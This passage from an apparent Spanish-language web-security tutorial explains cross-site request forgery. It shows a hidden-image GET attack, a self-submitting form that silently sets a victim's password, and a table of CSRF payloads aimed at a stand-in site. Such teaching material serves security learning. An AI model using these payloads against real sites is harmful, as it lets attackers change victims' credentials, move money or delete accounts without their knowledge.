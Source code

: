 * **Enlaces maliciosos:** Engañar al usuario para que haga clic en un enlace que ejecuta una acción.
* **Formularios invisibles:** Usar un formulario HTML autoenviado para realizar una petición.
* **Peticiones GET o POST:** Aprovechar endpoints vulnerables que no verifican la autenticidad de la solicitud.

### **Ejemplo de Explotación CSRF**

#### **Ataque con Método GET**

Si un sitio permite cambiar el correo del usuario con solo visitar un enlace como este:

```
https://victima.com/change-email?email=atacante@gmail.com
```

El atacante podría engañar a la víctima para hacer clic en:

```html
<img src="https://victima.com/change-email?email=atacante@gmail.com" style="display:none;">
```

El navegador de la víctima **hará la solicitud automáticamente** sin que lo note.

***

#### **Ataque con Método POST usando un Formulario**

Si un sitio vulnerable permite cambiar la contraseña con una simple solicitud POST:

```html
<form action="https://victima.com/change-password" method="POST">
    <input type="hidden" name="password" value="Pwned123">
    <input type="hidden" name="confirm_password" value="Pwned123">
    <input type="submit" value="Hacer clic aquí para ganar un premio">
</form>
<script>
    document.forms[0].submit(); // Se envía automáticamente
</script>
```

Al abrir la página, el navegador de la víctima **cambiará la contraseña sin que se dé cuenta**.

***

### **📜 Tabla de Payloads y Bypasses**

| Payload                                                                                                                                   | Explicación                                                                                              |
| ----------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------- |
| `<img src="https://victima.com/action?param=malicious">`                                                                                  | Aprovecha una imagen oculta para enviar peticiones GET automáticamente.                                  |
| `<iframe src="https://victima.com/transferir?monto=1000&cuenta=evil">`                                                                    | Usa un iframe invisible para ejecutar la acción sin que la víctima lo vea.                               |
| `<form action="https://victima.com/update" method="POST"><input type="hidden" name="data" value="malicious"><input type="submit"></form>` | Envia una solicitud POST al servidor sin la interacción del usuario.                                     |
| `<script>fetch('https://victima.com/action', {method: 'POST', credentials: 'include'});</script>`                                         | Usa JavaScript para realizar una solicitud con cookies autenticadas (algunos navegadores bloquean esto). |
| `<link rel="prerender" href="https://victima.com/delete-account">`                                                                        | Carga automáticamente una página antes de que el usuario la visite, activando la acción maliciosa.       |
| `<meta http-equiv="refresh" content="0;url=https://victima.com/action?param=malicious">`                                                  | Redirige automáticamente a la víctima sin su consentimiento.                                             |

